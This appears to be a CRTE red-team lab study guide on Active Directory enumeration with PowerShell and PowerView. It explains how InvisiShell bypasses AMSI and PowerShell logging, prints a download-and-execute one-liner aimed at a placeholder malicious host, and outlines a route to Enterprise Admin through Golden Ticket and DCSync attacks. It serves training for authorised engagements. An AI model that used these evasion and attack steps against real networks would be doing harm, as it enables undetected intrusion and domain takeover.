CRTE - Certified Red Team Expert
Enumeration
The enumeration phase in a Red Team engagement is where we gather as much information as possible about the target Active Directory (AD) environment. This phase is foundational because it helps us map out the domain structure, identify potential attack paths, and uncover high-value targets like privileged accounts or misconfigurations. Enumeration is a silent reconnaissance step that, when done effectively, can lead to a smoother and more efficient execution of later attack phases.
Why is Enumeration Key in a Red Team Engagement?
- Mapping the Environment:
Active Directory environments can be complex, with numerous organizational units (OUs), users, groups, and policies. Enumeration helps you understand how these components interconnect. This map allows you to strategize your approach and identify where to focus your efforts.
- Identifying Weak Points:
Misconfigurations in AD, such as overly permissive group memberships or improperly assigned privileges, often lead to privilege escalation opportunities. Enumeration allows you to pinpoint these weak spots.
- Minimizing Noise:
A well-conducted enumeration phase reduces the need for noisy exploitation attempts. By collecting and analyzing all relevant data early, you can design more precise attacks that are less likely to alert defenders.
- Building Attack Paths:
Enumeration is like connecting the dots. You start with basic data, such as user accounts and groups—and connect this information to find paths that lead to valuable assets, like Domain Admin credentials or sensitive file shares.
Key Goals of Enumeration
- Discovering Domain Structure: Learn about domain controllers, organizational units, and group policies.
- Finding Users and Groups: Identify regular and privileged user accounts, along with group memberships and their implications.
- Understanding Trust Relationships: Enumerate domain trusts (e.g., parent-child or forest trusts) to identify paths that might lead to other domains.
- Locating Sensitive Resources: Uncover shares, service accounts, and objects with weak permissions.
Stealth in Enumeration
Stealth is crucial during enumeration because the goal is to gather information without triggering alerts from tools like Microsoft Defender for Endpoint (MDE) or Microsoft Defender for Identity (MDI). These tools are designed to detect abnormal behavior, especially during actions like AD enumeration. Here’s why careful planning is essential:
- Behavioral Analysis: MDE and MDI look for patterns of suspicious activity, such as querying AD for large amounts of data or using known enumeration scripts like PowerView.
- Noise Reduction: Native tools and commands are less likely to trigger alerts because they align with regular administrative activity.
- Blending In: Using tools and methods that mimic legitimate administrative behavior makes it harder for defenders to distinguish between a legitimate user and an attacker.
Why Use PowerShell for Enumeration?
PowerShell is a natural choice for AD enumeration because it’s deeply integrated into Windows and widely used by administrators for legitimate tasks. This integration allows attackers to leverage PowerShell commands to gather information while blending in with regular activity.
Choosing the Right Tool
- Active Directory PowerShell Module:
This module is the best choice for enumeration during a Red Team engagement because it is native to Windows, minimizes detection risk, and provides comprehensive functionality for querying AD. The commands executed with this module are considered normal administrative actions, making it less likely to be flagged by MDE or MDI.
- PowerView:
PowerView is a powerful script designed specifically for offensive enumeration, offering advanced capabilities such as ACL enumeration and group policy analysis. However, its use is often flagged by detection tools due to its aggressive behavior and known signatures. As a result, it is reserved for situations where native tools cannot achieve the desired results.
- BloodHound:
BloodHound excels in analyzing relationships and attack paths in AD, but its data collection process can generate significant noise and is often flagged. It’s more suitable for post-enumeration analysis after data is collected using stealthier methods.
- SharpView:
SharpView provides similar functionality to PowerView but runs as a .NET binary, potentially bypassing certain PowerShell logging mechanisms. However, like PowerView, it’s best reserved for specific scenarios due to its detectability.
Avoiding Detection During Enumeration
- Use Native Tools First: Start with the Active Directory PowerShell Module to collect most of the information you need. Since these actions mimic legitimate administrator behavior, they are less likely to trigger alerts.
- Minimize Data Volume: Avoid querying large amounts of data in a single operation. Instead, break your queries into smaller, less conspicuous tasks.
- Obfuscate Where Necessary: If you must use custom scripts like PowerView, ensure they are obfuscated to reduce the likelihood of detection by MDE or MDI.
- Avoid Known Tools Initially: Tools like BloodHound and PowerView are well-known to defenders and can be easily flagged. Reserve these tools for advanced analysis or tasks that native tools cannot perform.
Why Enumeration is a Silent Weapon
Enumeration is often the most overlooked yet most critical phase in a Red Team engagement. Proper enumeration:
- Provides a clear understanding of the environment.
- Reduces the risk of failed attacks due to lack of knowledge.
- Helps you craft precise, low-noise attacks that are harder to detect.
By using the right tools and techniques, you can gather all the information needed to execute your attack plan while staying under the radar. Throughout this course, the focus will be on using the Active Directory PowerShell Module for enumeration due to its stealth and efficiency, with PowerView being reserved for specialized scenarios where its unique features are indispensable.
Four Methods for AD Enumeration
Here are the main tools used for domain enumeration in AD, their characteristics, and when to use them.
1. Active Directory PowerShell Module
- What is it?
A built-in Microsoft-supported PowerShell module designed for managing and enumerating AD environments. It includes cmdlets like Get-ADUser, Get-ADGroup, Get-ADComputer, and more.
- Advantages:
- Native to Windows and doesn’t raise suspicion since it’s a legitimate administrative tool.
- Works seamlessly with MDE and MDI, provided commands are used sparingly and mimic legitimate administrator behavior.
- Logs less suspicious activity compared to custom scripts like PowerView.
- Why Use It?
For most of the enumeration phase, Active Directory PowerShell Module will be our primary tool because it integrates natively, is harder to detect, and aligns with legitimate usage patterns.
2. BloodHound
- What is it?
A graph-based tool that identifies relationships and potential attack paths in AD using data collected from tools like SharpHound. - Advantages: - Provides a clear visual representation of privilege escalation paths. - Excellent for identifying high-value targets and misconfigurations. - Limitations: - Data collection viaSharpHound is noisy and often flagged by MDE/MDI.
- Not ideal during the initial stealthy enumeration phase.
- When to Use It?
BloodHound is best for post-enumeration analysis after you've collected data covertly using other tools.
3. PowerView
- What is it?
A PowerShell script that replicates many native AD enumeration tasks while adding more offensive-specific features.
- Advantages:
- Comprehensive enumeration capabilities, including privilege enumeration, ACL analysis, and group policy analysis.
- Lightweight and script-based, making it flexible.
- Limitations:
- Highly detectable by MDE and MDI due to known signatures and behaviors.
- Execution may trigger alerts or blocklists on monitored systems.
- Why Use It Sparingly?
PowerView should only be used when native tools cannot accomplish the task or when stealth is less critical. Examples include analyzing ACLs (Get-DomainACL) or identifying group membership anomalies.
4. SharpView
- What is it?
A .NET port of PowerView that offers the same functionality but executes as a compiled .NET assembly.
- Advantages:
- Bypasses script block logging by running as a binary.
- Faster execution than PowerView.
- Limitations:
- Still detectable by modern AV/EDR solutions if signatures are known.
- Requires .NET runtime, which may not always be available.
- When to Use It?
Similar to PowerView, SharpView should be reserved for specialized tasks or environments where PowerView is blocked.
Best Choice to Avoid MDE/MDI Detection
For stealthy enumeration, Active Directory PowerShell Module is the best choice because:
- It blends with normal administrative activity, reducing the risk of detection.
- Its commands are natively supported by Microsoft, making them less likely to trigger alerts.
- When used in moderation, it avoids raising red flags in logs or telemetry.
Why Use ADModule for Enumeration?
- Native and Trustworthy: It’s a built-in tool that defenders expect administrators to use, making its activity less suspicious.
- Comprehensive Coverage: Provides most of the functionality needed for enumeration, like retrieving users, groups, and computers.
- Log Friendly: Creates less alarming logs compared to custom tools.
Why Use PowerView Only in Special Cases?
- Detectability: PowerView is known to defenders and flagged by MDE/MDI due to its aggressive enumeration behavior and script signatures.
- Specific Tasks: It’s ideal for tasks like ACL enumeration or privilege audits, which are not easily accomplished with native tools.
- Fallback Tool: Use it only when ADModule lacks the capability for specific enumeration tasks.
Conclusion
- Enumeration is critical in understanding the AD environment and building effective attack paths.
- To maintain stealth, Active Directory PowerShell Module is the primary tool, as it blends with legitimate activity and avoids detection.
- PowerView and SharpView are fallback tools for advanced tasks but should be used sparingly to avoid detection.
- BloodHound is a powerful analysis tool but not suitable for initial enumeration due to its noisiness.
By sticking to native tools for enumeration, you reduce your footprint, increase stealth, and ensure a solid foundation for subsequent attack phases.
> **Note: BloodHound won’t be demonstrated in this guide.
Througout the Labs I’ll be using ADModule and Powerview for enumeration, ADModule will always be our first option and Powerview will be used in some specific cases.**
PowerShell Security Control Bypass
Previously we discussed a little bit about 4 PowerShell Detection mechanisms, now we will discuss few ways to bypass these mechanisms and try to be stealthy while doing our domain enumeration phase.
Invisi-Shell
InvisiShell is a tool designed to bypass security controls in PowerShell, allowing for the stealthy execution of scripts by circumventing enhanced logging mechanisms and detection by security software.
Here’s a detailed explanation of how InvisiShell works:
- Bypassing PowerShell Security Measures: InvisiShell is specifically created to bypass system-wide transcription, script block logging, and the Anti-Malware Scan Interface (AMSI).
These are security features that Microsoft implemented to monitor and log PowerShell activity.
- System-wide transcription logs all PowerShell commands and their output.
- Script block logging records the content of PowerShell scripts.
- AMSI scans scripts for malicious content before they are executed.
- Hooking .NET Assemblies: InvisiShell achieves its bypass by hooking into the .NET assemblies
System.Management.Automation.dllandSystem.Core.dll. - This is accomplished using a CLR (Common Language Runtime) profiler API. - A CLR profiler is a DLL loaded by the CLR at runtime to intercept and modify the behavior of these assemblies via the profiling API. - Methods of Use: InvisiShell can be launched in two ways, depending on the user's privileges: - With administrator privileges: TheRunWithPathAsAdmin.batscript is used. - Without administrator privileges: TheRunWithRegistryNonAdmin.batscript is used. This method creates a CLR profiler and starts a new PowerShell session with disabled logging. - Incapacitating Security Features: By hooking into these .NET assemblies, InvisiShell disables system-wide transcription, AMSI, and script block logging for the current PowerShell session. - Avoiding Detection: When using InvisiShell, the tool hooks toSystem.Management.Automation.dllandSystem.Core.dll, which allows it to avoid system-wide transcription, script block logging, and AMSI. - Integration with Other Tools: The sources show that InvisiShell can be used in conjunction with other tools, such as PowerUp, PowerView, the AD module, and other PowerShell scripts. - Clean-up Process: To complete the clean-up, users must typeexitin the new PowerShell session created by InvisiShell. - Modified Version: The class uses a slightly modified version of InvisiShell. - Location of Tools: All the tools, including InvisiShell, used in the lab environment are located in theC:\ADdirectory on the student VM. The lab manual also notes that this directory is exempted from Windows Defender, but AMSI may still detect some tools when loaded. - InvisiShell and Binaries: It is noted that binaries likeRubeus.exemay be inconsistent when used from within an InvisiShell session and should be run from a normal command prompt. - Example Usage: The lab manual provides examples of using InvisiShell to launch a PowerShell session, import modules, and run commands to exploit a service, bypass AMSI, and extract credentials from a remote machine. In summary, InvisiShell is essential for maintaining stealth in the lab environment by allowing the user to execute PowerShell scripts without triggering the enhanced logging and security features of Windows. The tool is used to bypass security controls in PowerShell, specifically designed to circumvent enhanced logging mechanisms and detection by security software. It’s always good that we do run Invisi-Shell via cmd before we start doing our enumeration and right after script execution, Powershell will be executed. This script should be executed depending on the type of privilege we do have on the machine. If we are just a simple low level privileged user, then we should runRunWithRegistetyNonAdmin.bat.
If we are a high level privileged user like Administrator for example, then we should run RunWithPathAsAdmin.bat.RunWithRegistryNonAdmin.bat

To verify whether InvisiShell has successfully bypassed the intended PowerShell defenses (e.g., logging mechanisms, AMSI, or other detection features), you can perform targeted tests to validate its effectiveness. Here's a step-by-step guide to check what defenses you were able to bypass and confirm whether InvisiShell is working properly:
1. Validate PowerShell Logging (Script Block Logging & Transcription)
You can verify if Script Block Logging and System-wide Transcription are disabled or bypassed.
Steps:
- Script Block Logging Test:
- Execute a simple or obfuscated PowerShell command or script, such as:
powershell [System.Net.Dns]::GetHostAddresses("example.com")
- Check the Windows Event Log under:
plain text Applications and Services Logs > Microsoft > Windows > PowerShell > Operational
- If InvisiShell is working, no entries related to your script should appear in the event logs, even if Script Block Logging is enabled.
- Transcription Test:
- Look for transcription logs in the configured directory (defined by Group Policy or registry settings). By default, these logs might be stored in:
plain text %USERPROFILE%\Documents\PowerShell_transcript
- If InvisiShell is bypassing transcription, there should be no logs created for your session.
2. Validate AMSI Bypass
AMSI scans the script content in memory before execution. You can confirm whether AMSI is disabled or bypassed.
Steps:
- Run a script known to trigger AMSI, such as one containing flagged keywords:
powershell IEX (New-Object Net.WebClient).DownloadString('http://malicious-site/payload.ps1')
- Without InvisiShell, this should trigger an AMSI detection and display a warning like:
plain text This script contains malicious content and has been blocked by your antivirus software.
- If InvisiShell is active and bypassing AMSI, the script should execute without any warning or blocking.
3. Validate Constrained Language Mode (CLM)
If CLM is enforced, it restricts advanced features like custom .NET assemblies and cmdlets.
Steps:
- Check if CLM is enforced by running:
powershell $ExecutionContext.SessionState.LanguageMode
- FullLanguage: No CLM restrictions.
- ConstrainedLanguage: CLM is enforced.
- Try to execute a command that requires full language mode, such as:
powershell Add-Type -TypeDefinition 'public class Test { public string Hello() { return "Hello"; } }'
- If CLM is bypassed, the command should succeed.
- If not, CLM is still enforced, and you'll see an error.
4. Check Registry and Configurations
InvisiShell relies on registry modifications and hooking into PowerShell processes.
Steps:
- Verify Registry Modifications:
- Check if the custom COR_PROFILER and related registry keys were added:
plain text HKEYCURRENTUSER\Software\Classes\CLSID\
- Confirm the custom profiler (e.g.,
InShellProf.dll) is loaded by inspecting the registry and the DLL path. 1. Validate DLL Injection: - Use tools like Process Explorer or Process Monitor to check if theInShellProf.dllfile is loaded into the PowerShell process.
5. Test Logging with a Known Detection Tool
To ensure that logging mechanisms (e.g., Script Block Logging or transcription) are bypassed:
- Use a test tool like Sysmon or a logging-enabled SIEM/EDR platform.
- Execute PowerShell commands or scripts, then verify if any telemetry is captured in these tools. If InvisiShell is working, logs related to the executed script should not appear.
6. Validate MDE/EDR Detection
To check if InvisiShell bypasses Microsoft Defender for Endpoint (MDE) or another EDR:
- Trigger a Common Red Team Command:
- Execute a known enumeration command (e.g., querying AD groups or users) or a suspicious PowerShell command.
- Check if MDE raises any alerts in the Microsoft Defender Security Center or logs the action.
- Analyze Process Activity:
- Use Sysinternals Process Monitor (ProcMon) to see what happens when you run PowerShell commands. Look for:
- Registry Queries: Are logging settings being queried?
- DLL Injection: Is
InShellProf.dllactively loaded?
7. Validate Against Custom Logging Solutions
Many organizations have custom logging mechanisms that extend beyond native PowerShell features. To confirm if these are bypassed:
- Simulate Detection Scenarios:
- Test known enumeration actions (e.g., querying domain controllers or group policies) and observe if they trigger alerts or logs in SIEM/EDR systems.
Conclusion: How to Know If InvisiShell Is Effective
- If Script Block Logging and Transcription logs are empty after executing PowerShell commands, InvisiShell successfully bypassed PowerShell logging mechanisms.
- If AMSI does not block a script flagged as malicious, InvisiShell bypassed AMSI.
- If advanced commands execute despite CLM enforcement, InvisiShell successfully bypassed CLM.
- If your actions avoid detection by MDE or SIEM tools, InvisiShell contributed to enhanced stealth, but keep in mind:
Now that we were able to execute our InvisiShell, let’s import ADModule for our enumeration.
- Detection tools analyze behavior, not just logs. InvisiShell cannot fully bypass advanced behavior-based detection.
Importing Modules to Powershell.
For this module importing mechanism we do have 2 ways:
Pay attention that dot sourcing with only work with extentions like .ps1, .psd1 and the Import-Module with work with all the extentions like, .ps1, .psd1, .dll, and so on.
1 - First option is using a dot sourcing mechanism.
. .\PowerView.ps1. .\ActiveDirectory.psd1
2 - Second option is using Import-Module. Import ADModule in the following sequence .dll then .psd1.
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dllImport-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1Import-Module .\PowerView.ps1

On the screenshot above, it is possible to see that we used the 2 ways to import ADModule and PowerView as well.
Enumerating Users, Computers and groups
User Enumeration
It is always import as an internal attacker that we start our enumeration by requesting a list of all the users within the company, this way we can have a better view of all the valid User Account in our domain. This list of users will really be important for us later on.
Get-ADUser -Filter *

As it’s possible to see, above we were able to grab the list of users, we have only 4 because the output is snip.
Let’s say we want to have a full list of users only on the output and avoid any other property, is is possible by simply filtering for propertly SamAccountName for example, by piping the output and requesting only that specific property.
Get-ADUser -Filter * | Select -ExpandProperty samaccountname

As we can see, filtering by one specific property, gave us the possibility to bring only the full list of usernames. Other properties can be utilized the same when its needed.
Computer Enumeration
Our next step is to enumerate the computers in the domain and to achieve this command we can do the following as we did from our users enumeration.
This request will help us to understand what type of computer we do have on the our targeted domain.
We can simply request a full list of domain computers with all its properly:
Get-ADComputer -Fiter *

Above on the screenshot we do have the list of computers and it’s property in the domain. The list is SNIP since it brought with all the properties.
We can also filter is and get just the full list of computer accounts on the output and save it as a list of computer for future used
Get-ADComputer -Fiter * | Select -expand name

We can see above that we were able to requets the full list of computers within the domain we are right now, in this case these are all the computer we have registered insde us.techcorp.local , which is a child domain of techcorp.local. We will discuss about Parent/Child Relationship later on.
Groups Enumeration
We can enumerate as well all the groups we have inside our target domain (eu.techcorp.local) by using the command Get-ADGroup.
Get-ADGroup -Filter *

As we did previously while enumerating Users and Computers, we can also filter to simply get a full list of all the users by filtering by the property name.
Get-ADGroup -Filter * | Select -Expand name

Now we do have a full list of all the groups inside us.techcorp.local. Now let’s move a bit further on this enumeration… Let’s imagine that we want to go over one of the groups we just found inside the target domain and check the attributes of one specific group of our interest. For example, we can enumerateDomain Admins Group by simply checking the group itself then we check its properties.
Get-ADGroup -Identity 'Domain Admins'

Get-ADGroup -Identity 'Domain Admins' -Properties *

It is possible to see above that by checking the ‘Domain Admins’ group properties, it reveals lots of information, including also who is member of the ‘Domain Admins’ group.
Let’s say now, we would like to know who are the member of a specific group, for example ‘Domain Admins’. We can use the commandGet-ADGroupMember to achieve this task.
Get-ADGroupMember -Identity 'Domain Admins'

The output from our previous enumeration, confirms what we saw when we used the Get-ADGroup command to enumerate the ‘Domain Admins’ properties. Inside Domain Admins group we do have 2 users which areAdministrator and decda.
Special Group
There is a special case here for a special group. If you remember from our Groups enumeration, there is a Group named ‘Enterprise Admins'
The Enterprise Admins group is a highly privileged security group in a Microsoft Active Directory (AD) forest. It exists only in the root domain of the AD forest and grants its members administrative privileges across the entire forest, including all child domains. Members of this group have the ability to manage any domain, Domain Controllers (DCs), and critical AD components across the forest.
From an offensive security perspective, enumerating the Enterprise Admins group is crucial because it provides insight into who holds the keys to the forest, opening pathways to achieve forest dominance.
Offensive Use Case Example
- You compromise a low-privileged account in a child domain.
- Enumerate Enterprise Admins to identify privileged accounts.
- Use pass-the-hash, Kerberoasting, or other techniques to compromise an Enterprise Admin account.
- With the Enterprise Admin account:
- Access the root domain.
- Perform a DCSync attack to dump the krbtgt hash, enabling a Golden Ticket attack.
- Use forest-level privileges to compromise all child domains or maintain persistence.
Takeaways
For a Red Teamer or Pentester:
- The Enterprise Admins group is the ultimate prize when targeting AD environments because of its forest-wide privileges.
- Enumerating this group provides a roadmap to identifying the most critical accounts in the environment.
- Once an Enterprise Admin is compromised, you essentially own the entire AD forest, enabling lateral movement, persistence, and complete control over the target network.
Get-ADGroupMember -Identity 'Enterprise Admins'

The initial query failed because the Enterprise Admins group does not exist in the child domain (us.techcorp.local) being queried. By specifying the-Server parameter and pointing it to the root domain (techcorp.local), the command will direct the query to the correct location where the Enterprise Admins group resides, allowing the enumeration to succeed.Get-ADGroupMember -Identity 'Enterprise Admins' -Server 'techcorp.local'

Why Did the Query Work with Server and the Root Domain?
- Specifying the Root Domain:
- By adding the
Serverparameter and pointing it to the root domain controller (techcorp.local), the query is explicitly directed to the correct domain where the Enterprise Admins group resides. - The Enterprise Admins group is located in the root domain of the forest (techcorp.local) because it is a forest-wide administrative group and does not exist in any child domains. - Active Directory Hierarchy:
- Active Directory is designed as a hierarchical system with the root domain serving as the topmost level in the forest.
- Forest-wide objects, like the Enterprise Admins group, are only created and stored in the root domain’s directory partition.
- Querying the root domain ensures the command can locate and retrieve the information about the group.
Kerberos Policy Enumeration
Enumerating the Kerberos policy in an Active Directory environment is critical during a Red Team engagement for several reasons:
- Understanding Ticket Behavior:
Kerberos policies define how Kerberos tickets (TGTs and service tickets) behave in terms of lifespan, renewal, and clock synchronization. This information helps attackers understand the operational parameters of the target environment.
- Identifying Weaknesses in Ticket Expiration:
Misconfigurations, such as overly long MaxTicketAge or MaxRenewAge, can provide opportunities for attacks like Golden Ticket, Kerberoasting, or session hijacking.
- Facilitating Ticket Replay and Forgery Attacks:
Attackers can leverage lax Kerberos policies to replay Kerberos tickets or forge them, exploiting weak enforcement of ticket expiration or clock skew.
- Preparation for Persistence:
(Get-DomainPolicy).KerberosPolicy

By understanding the ticket renewal policies and expiration, attackers can create Golden Tickets that align with the environment’s configuration, avoiding detection.
Explaining the Query Output
Here’s the breakdown of the Kerberos policy parameters and their implications based on the screenshot:
- MaxTicketAge:
10 - This specifies the maximum lifetime (in hours) of a Kerberos Ticket Granting Ticket (TGT).
- Implication: A TGT issued by the Key Distribution Center (KDC) remains valid for 10 hours. Attackers can use stolen TGTs to impersonate a user within this time window. Longer durations increase the attacker's window for lateral movement.
- MaxRenewAge:
7 - This indicates the maximum time (in days) for which a TGT can be renewed.
- Implication: Even if the initial TGT expires, it can be renewed for up to 7 days. Attackers with access to valid TGTs and renewal privileges can maintain persistence without generating new authentication events.
- MaxServiceAge:
600 - The maximum lifetime (in minutes) of a service ticket issued by the KDC.
- Implication: Service tickets are valid for 10 hours (600 minutes), the same as TGTs. Attackers performing Kerberoasting may exploit this by capturing service tickets and cracking them offline during their validity.
- MaxClockSkew:
5 - This represents the acceptable clock skew (in minutes) between the client and the server during Kerberos ticket validation.
- Implication: A clock skew of 5 minutes provides a small margin for time synchronization errors between systems. Attackers can exploit this for ticket replay attacks if their machine's time is synchronized within this range.
- TicketValidateClient:
1 - This specifies whether the client’s identity is validated during service ticket requests.
- Implication: A value of
1indicates that the client’s identity is validated. This strengthens the Kerberos authentication process, making it slightly harder for attackers to forge or misuse tickets without a valid client identity.
Offensive Implications of This Output
- Golden Ticket Creation:
- Knowing the MaxTicketAge and MaxRenewAge allows attackers to craft Golden Tickets that align with the environment's ticket expiration policies, reducing the chance of detection.
- Kerberoasting:
- The MaxServiceAge parameter determines how long service tickets remain valid. Attackers can target long-lived service tickets for offline cracking.
- Replay Attacks:
- A MaxClockSkew of 5 minutes provides a limited window for replay attacks. However, synchronized clocks across systems can enable an attacker to exploit this margin effectively.
- Persistence via Renewable TGTs:
- Attackers with valid credentials can leverage MaxRenewAge to maintain long-term access by renewing their TGTs within the 7-day renewal window.
- Detection of Misconfigurations:
- Weak Kerberos configurations (e.g., unnecessarily long ticket lifetimes or renewal windows) provide insights into how to exploit the environment effectively.
Key Takeaways
- Why Enumerate: Understanding Kerberos policies helps attackers plan targeted attacks like Golden Ticket, Kerberoasting, or replay attacks while maximizing stealth and persistence.
- Output Explained:
By analyzing Kerberos policies, attackers gain critical insights into ticket lifecycles and security configurations, which are essential for planning effective and stealthy attacks during Red Team engagements.
- Tickets are valid for 10 hours and renewable for 7 days.
- Service tickets match the TGT validity, allowing extended exploitation opportunities.
- A 5-minute clock skew is acceptable, enabling time-sensitive attacks like replay if clocks are aligned.
- Client validation (enabled) adds a layer of difficulty to forging tickets.
Enumerating GPOs and OUs
What Are GPOs (Group Policy Objects)?
Group Policy Objects (GPOs) are a key feature in Microsoft Active Directory (AD) environments, used to define and enforce settings across computers and users in a domain.
These settings are centrally managed by domain administrators and can apply configurations for security, software installation, scripts, and other administrative tasks.
Enumerating Group Policy Objects (GPOs) with PowerView is often preferred over the Active Directory PowerShell Module (ADModule) during Red Team engagements because PowerView is designed with offensive security in mind, offering greater flexibility and specific enumeration features. Here's a detailed comparison to explain why PowerView is better suited for enumerating GPOs in such scenarios
Since ADModule Lacks specialized commands for offensive enumeration, such as inspecting GPO permissions or extracting Restricted Groups directly, PowerView is better.
Get-DomainGPO

The Command Get-DomainGPO issued above, retrieves all Group Policy Objects (GPOs) in the domain and provide the following information:
- GPO Display Name.
- GUID (unique identifier).
- SYSVOL path for each GPO.
- Ownership and permissions for each GPO.
